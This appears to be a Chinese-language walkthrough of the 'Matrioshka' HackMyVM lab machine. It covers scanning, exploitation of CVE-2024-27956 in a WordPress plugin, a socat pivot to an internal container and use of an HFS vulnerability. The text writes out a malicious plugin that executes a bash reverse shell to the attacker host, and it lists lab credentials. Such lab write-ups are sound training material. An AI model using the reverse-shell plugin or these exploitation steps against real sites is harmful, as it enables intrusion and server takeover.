## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Matrioshka  
❯ nmap 192.168.56.108 -sV -A -p- -T4                     

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 b5:a4:7c:65:5c:1f:d7:89:42:bd:76:df:2c:8e:93:4e (ECDSA)
|_  256 5d:3d:2b:43:fc:89:fa:24:a3:f4:73:5f:7b:89:6c:e3 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: mamushka
MAC Address: 08:00:27:D5:7C:4C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

将**mamushka.hmv**添加到**/etc/hosts**

## WPscan

可以看到是**Wordpress**搭建的网站



找到用户名是**admin**



这里我使用的是**aggressive**模式来扫描插件

```
[root@kali] /home/kali/Matrioshka  
❯ wpscan --url "http://mamushka.hmv/" --plugins-detection aggressive --plugins-version-detection aggressive --api-token <YOUR-TOKEN>

<PASS>
[i] Plugin(s) Identified:

[+] akismet
 | Location: http://mamushka.hmv/wp-content/plugins/akismet/
 | Latest Version: 5.3.7
 | Last Updated: 2025-02-14T18:49:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/akismet/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Akismet 2.5.0-3.1.4 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 3.1.5
 |     References:
 |      - https://wpscan.com/vulnerability/1a2f3094-5970-4251-9ed0-ec595a0cd26c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9357
 |      - http://blog.akismet.com/2015/10/13/akismet-3-1-5-wordpress/
 |      - https://blog.sucuri.net/2015/10/security-advisory-stored-xss-in-akismet-wordpress-plugin.html
 |
 | The version could not be determined.

[+] meta-generator-and-version-info-remover
 | Location: http://mamushka.hmv/wp-content/plugins/meta-generator-and-version-info-remover/
 | Latest Version: 16.0 (up to date)
 | Last Updated: 2024-11-20T05:03:00.000Z
 | Readme: http://mamushka.hmv/wp-content/plugins/meta-generator-and-version-info-remover/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/meta-generator-and-version-info-remover/, status: 403
 |
 | Version: 16.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/meta-generator-and-version-info-remover/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/meta-generator-and-version-info-remover/readme.txt

[+] ultimate-member
 | Location: http://mamushka.hmv/wp-content/plugins/ultimate-member/
 | Last Updated: 2025-03-03T17:36:00.000Z
 | Readme: http://mamushka.hmv/wp-content/plugins/ultimate-member/readme.txt
 | [!] The version is out of date, the latest version is 2.10.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/ultimate-member/, status: 403
 |
 | [!] 7 vulnerabilities identified:
 |
 | [!] Title: Ultimate Member < 2.8.7 - Cross-Site Request Forgery to Membership Status Change
 |     Fixed in: 2.8.7
 |     References:
 |      - https://wpscan.com/vulnerability/2b670a80-2682-4b7f-a549-64a35345e630
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8520
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/7ffddc03-d4ae-460e-972a-98804d947d09
 |
 | [!] Title: Ultimate Member < 2.8.7 - Authenticated (Contributor+) Stored Cross-Site Scripting
 |     Fixed in: 2.8.7
 |     References:
 |      - https://wpscan.com/vulnerability/7488f9f3-03ea-4f4e-b5fb-c0dd02c5bb59
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-8519
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9e394bb2-d505-4bf1-b672-fea3504bf936
 |
 | [!] Title: Ultimate Member < 2.9.0 - Missing Authorization to Authenticated (Subscriber+) Arbitrary User Profile Picture Update
 |     Fixed in: 2.9.0
 |     References:
 |      - https://wpscan.com/vulnerability/54a53b30-4249-4559-85f8-7aeac2dc0df2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-10528
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/0a9793b6-2186-46ef-b204-d8f8f154ebf3
 |
 | [!] Title: Ultimate Member – User Profile, Registration, Login, Member Directory, Content Restriction & Membership Plugin < 2.9.2 - Information Exposure
 |     Fixed in: 2.9.2
 |     References:
 |      - https://wpscan.com/vulnerability/cb9c5ef8-51f8-4a46-ae56-23302c5980aa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0318
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/4ee149bf-ffa3-4906-8be2-9c3c40b28287
 |
 | [!] Title: Ultimate Member < 2.9.2 - Unauthenticated SQL Injection
 |     Fixed in: 2.9.2
 |     References:
 |      - https://wpscan.com/vulnerability/31ef60db-4847-4623-a194-8722e668e6ab
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-0308
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/e3e5bb98-2652-499a-b8cd-4ebfe1c1d890
 |
 | [!] Title: Ultimate Member < 2.10.0 - Authenticated SQL Injection
 |     Fixed in: 2.10.0
 |     References:
 |      - https://wpscan.com/vulnerability/90b5192a-ceee-4612-8e21-2341bae29cad
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12276
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/846f9828-2f1f-4d08-abfb-909b8d634d8a
 |
 | [!] Title: Ultimate Member < 2.10.1 - Unauthenticated SQLi
 |     Fixed in: 2.10.1
 |     References:
 |      - https://wpscan.com/vulnerability/1d39ff72-1178-4812-be55-9bf4b58bbbb6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-1702
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/34adbae5-d615-4f8d-a845-6741d897f06c
 |
 | Version: 2.8.6 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/ultimate-member/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/ultimate-member/readme.txt

[+] wp-automatic
 | Location: http://mamushka.hmv/wp-content/plugins/wp-automatic/
 | Latest Version: 3.109.2
 | Last Updated: 2025-03-09T10:54:44.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://mamushka.hmv/wp-content/plugins/wp-automatic/, status: 200
 |
 | [!] 7 vulnerabilities identified:
 |
 | [!] Title: Automatic 2.0.3 - csv.php q Parameter SQL Injection
 |     Fixed in: 2.0.4
 |     References:
 |      - https://wpscan.com/vulnerability/dadc99ca-54ee-42b4-b247-79a47b884f03
 |      - https://www.exploit-db.com/exploits/19187/
 |      - https://packetstormsecurity.com/files/113763/
 |
 | [!] Title: WordPress Automatic < 3.53.3 - Unauthenticated Arbitrary Options Update
 |     Fixed in: 3.53.3
 |     References:
 |      - https://wpscan.com/vulnerability/4e5202b8-7317-4a10-b9f3-fd6999192e15
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4374
 |      - https://blog.nintechnet.com/critical-vulnerability-fixed-in-wordpress-automatic-plugin/
 |
 | [!] Title: Automatic < 3.92.1 - Cross-Site Request Forgery to Privilege Escalation
 |     Fixed in: 3.92.1
 |     References:
 |      - https://wpscan.com/vulnerability/fa2f3687-7a5f-4781-8284-6fbea7fafd0e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27955
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/12adf619-4be8-4ecf-8f67-284fc44d87d0
 |
 | [!] Title: Automatic < 3.92.1 - Unauthenticated Arbitrary File Download and Server-Side Request Forgery
 |     Fixed in: 3.92.1
 |     References:
 |      - https://wpscan.com/vulnerability/53b97401-1352-477b-a69a-680b01ef7266
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27954
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/620e8931-64f0-4d9c-9a4c-1f5a703845ff
 |
 | [!] Title: Automatic < 3.92.1 - Unauthenticated SQL Injection
 |     Fixed in: 3.92.1
 |     References:
 |      - https://wpscan.com/vulnerability/53a51e79-a216-4ca3-ac2d-57098fd2ebb5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-27956
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/a8b319be-f312-4d02-840f-e2a91c16b67a
 |
 | [!] Title: WordPress Automatic Plugin < 3.93.0 Cross-Site Request Forgery
 |     Fixed in: 3.93.0
 |     References:
 |      - https://wpscan.com/vulnerability/e5d0dcec-41a7-40ae-b9ce-f839de9c28b8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32693
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/6231e47e-2120-4746-97c1-2aa80aa18f4e
 |
 | [!] Title: WordPress Automatic < 3.95.0 - Authenticated (Contributor+) Stored Cross-Site Scripting via autoplay Parameter
 |     Fixed in: 3.95.0
 |     References:
 |      - https://wpscan.com/vulnerability/d0198310-b323-476a-adf8-10504383ce1c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4849
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/4be58bfa-d489-45f5-9169-db8bab718175
 |
 | The version could not be determined.
```

## Nuclei

```
[root@kali] /home/kali/Desktop/nuclei  
❯ ./nuclei -u http://mamushka.hmv/                                                                                        ⏎

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.9

                projectdiscovery.io

[INF] Current nuclei version: v3.3.9 (outdated)
[INF] Current nuclei-templates version: v10.1.3 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 7707
[INF] Executing 7518 signed templates from projectdiscovery/nuclei-templates
[WRN] Loading 189 unsigned templates for scan. Use with caution.
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1706 (Reduced 1603 Requests)
[INF] Using Interactsh Server: oast.site
[CVE-2024-27956] [http] [critical] http://mamushka.hmv/wp-content/plugins/wp-automatic/inc/csv.php
[wordpress-login] [http] [info] http://mamushka.hmv/wp-login.php
[tech-detect:font-awesome] [http] [info] http://mamushka.hmv/
[tech-detect:php] [http] [info] http://mamushka.hmv/
[addeventlistener-detect] [http] [info] http://mamushka.hmv/
[apache-detect] [http] [info] http://mamushka.hmv/ ["Apache/2.4.61 (Debian)"]
[php-detect] [http] [info] http://mamushka.hmv/ ["8.2.22"]
[wp-enabled-registration] [http] [info] http://mamushka.hmv/?page_id=14
[wordpress-detect] [http] [info] http://mamushka.hmv/
[wp-enabled-registration] [http] [info] http://mamushka.hmv/?page_id=14
[wp-user-enum:usernames] [http] [low] http://mamushka.hmv/?rest_route=/wp/v2/users/ ["admin"]
[http-missing-security-headers:strict-transport-security] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:content-security-policy] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:permissions-policy] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:x-frame-options] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:x-content-type-options] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:referrer-policy] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:clear-site-data] [http] [info] http://mamushka.hmv/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://mamushka.hmv/
[mixed-passive-content:img] [http] [info] http://mamushka.hmv/ ["http://mamushka.htb/wp-content/uploads/2024/08/mamushka-1.jpg","http://mamushka.htb/wp-content/uploads/2024/08/OIG5-1.jpeg","http://mamushka.htb/wp-content/uploads/2024/08/OIG4.jpeg"]
[caa-fingerprint] [dns] [info] mamushka.hmv
```

可以看到存在**CVE-2024-27956**漏洞

## CVE-2024-27956-RCE

下载脚本

- [diego-tella/CVE-2024-27956-RCE: PoC for SQL Injection in CVE-2024-27956](https://github.com/diego-tella/CVE-2024-27956-RCE)



登录来到后台



我本来想到官方插件市场上下载一个压缩包，然后上传，不知道为什么在其他靶机上可以成功，这里不行。这个**wordpress**实在是太卡了！！！

找了个其他的**webshell**代码进行压缩上传

```
<?php
/**
 * Plugin Name: Reverse Shell Plugin
 * Plugin URI: 
 * Description: Reverse Shell Plugin for penetration testing.
 * Version: 1.0
 * Author: Security Analyst
 * Author URI: http://www.example.com
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.104/6666 0>&1'");
?>
```

压缩成**zip**文件

```
[root@kali] /home/kali/Matrioshka  
❯ zip webshell.zip webshell.php    
  adding: webshell.php (deflated 28%)
```

上传后，先监听端口，再激活插件



## User

发现存在**docker**容器



很明显，当前的**wordpress**是开在**docker**容器中的，把内网的**80**端口映射到了主机上

在**linpeas**输出中得到了**wordpress**的用户密码



这里需要注意的是，用户名中少了一个 h !!!! 对比网站标题mamushka才知道。

```
matrioshka:Fukurokuju
```



## Root

发现许多张网卡

```
default         0.0.0.0                                                                                                                                                                                         
loopback        127.0.0.0
link-local      169.254.0.0

br-1f21cf17cc68: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet6 fe80::42:37ff:fe92:1872  prefixlen 64  scopeid 0x20<link>
        ether 02:42:37:92:18:72  txqueuelen 0  (Ethernet)
        RX packets 546310  bytes 191597700 (182.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 493766  bytes 626392335 (597.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

br-4472ca9b655b: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.1  netmask 255.255.0.0  broadcast 172.19.255.255
        inet6 fe80::42:4dff:fe92:8a5a  prefixlen 64  scopeid 0x20<link>
        ether 02:42:4d:92:8a:5a  txqueuelen 0  (Ethernet)
        RX packets 3648  bytes 215213 (210.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3948  bytes 380378 (371.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:92:43:dd:58  txqueuelen 0  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.56.108  netmask 255.255.255.0  broadcast 192.168.56.255
        inet6 fe80::a00:27ff:fed5:7c4c  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:d5:7c:4c  txqueuelen 1000  (Ethernet)
        RX packets 1187558  bytes 620318374 (591.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 862178  bytes 196392172 (187.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1029733  bytes 792434531 (755.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1029733  bytes 792434531 (755.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth011424f: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::d06a:28ff:fe1f:c382  prefixlen 64  scopeid 0x20<link>
        ether d2:6a:28:1f:c3:82  txqueuelen 0  (Ethernet)
        RX packets 143651  bytes 269370121 (256.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 168239  bytes 25584006 (24.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

veth79812d4: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::d85a:deff:fe35:2d7  prefixlen 64  scopeid 0x20<link>
        ether da:5a:de:35:02:d7  txqueuelen 0  (Ethernet)
        RX packets 8  bytes 565 (565.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17  bytes 1539 (1.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

vethd4425c2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::8c9a:93ff:fe89:f449  prefixlen 64  scopeid 0x20<link>
        ether 8e:9a:93:89:f4:49  txqueuelen 0  (Ethernet)
        RX packets 714526  bytes 224828236 (214.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 637430  bytes 895763382 (854.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

注意

靶机必须能够访问外网，不然无法正常启动其中的容器！！！！

上传**fscan**进行扫描一下，发现**172.19.0.2**是存活的



使用**socat**将其转发出来

```
matrioshka@matrioshka:/tmp$ ./socat tcp-l:4444,fork,reuseaddr tcp:172.19.0.2:80 &
```

进入后可以使用弱口令**admin:admin**进行登录，进入管理面板查看到系统版本



- [hfs 0.52.9 vulnerabilities | Snyk](https://security.snyk.io/package/npm/hfs/0.52.9)

- [truonghuuphuc/CVE-2024-39943-Poc](https://github.com/truonghuuphuc/CVE-2024-39943-Poc)

将**/tmp**目录设置为任何人可以操作



如图执行后会在**/tmp**目录下生成一个文件



